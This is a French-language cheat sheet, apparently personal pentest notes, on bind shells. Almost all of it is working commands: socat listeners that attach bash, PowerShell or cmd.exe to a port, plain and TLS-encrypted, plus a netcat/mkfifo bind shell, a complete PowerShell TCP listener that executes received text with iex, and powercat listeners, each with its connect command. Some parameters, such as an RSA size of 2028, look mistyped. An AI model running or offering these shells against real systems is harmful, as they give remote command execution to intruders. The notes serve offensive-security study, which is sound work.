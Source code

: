 Se produisent lorsque le code exécuté sur la cible est utilisé pour démarrer un écouteur attaché à un shell directement sur la cible.

**Cela présente l'avantage de ne nécessiter aucune configuration sur votre propre réseau, mais peut être empêché par des pare-feu protégeant la cible.**

---
# socat
#linux #windows 

```sh
socat TCP-L:<PORT> EXEC:"/bin/bash"
```

```sh
socat TCP-L:<PORT> EXEC:powershell.exe,pipes
```

Connecter à l'auditeur en attente:

```
socat TCP:<TARGET-IP>:<PORT> -
```

###### Shell cryptées

Générer un certificat afin d'utiliser des shells cryptés

```sh
openssl req --newkey rsa:2028 -nodes -keyout shell.key -x509 -days 362 -out shell.crt
```

Fusionner les deux fichiers en un seul 

```sh
cat shell.key shell.crt > shell.pem
```

Ecouteur:

```sh
socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0,fork EXEC:"/bin/bash"
```

```sh
socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0,fork EXEC:cmd.exe,pipes
```

Connecter à l'auditeur en attente:

```sh
socat OPENSSL:<TARGET-IP>:<PORT>,verify=0 -
```

### Shell communes
#linux 

```sh
mkfifo /tmp/f; nc -lvnp <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f
```

```sh
nc -nv <TARGET-IP> <PORT>
```

# powershell 
#windows 

Executer ceci dans powershell

```c
$listener = New-Object System.Net.Sockets.TcpListener('0.0.0.0', '443');
$listener.start();
$client = $listener.AcceptTcpClient();
$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0)
{
	$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0,$i);
	$sendback = (iex $data 2>&1 | Out-String);
	$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';
	$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
	$stream.Write($sendbyte,0,$sendbyte.Length);
	$stream.Flush();
}
$client.Close();
$listener.Stop();
```

```sh
nc -nv <TARGET-IP> 443
```

# powercat
C'est la version powershell de netcat

```c
. .\powercat.ps1
powercat -l -p 9001 -ep -rep -v
```

```sh
nc -nv <TARGET-IP> 9001
```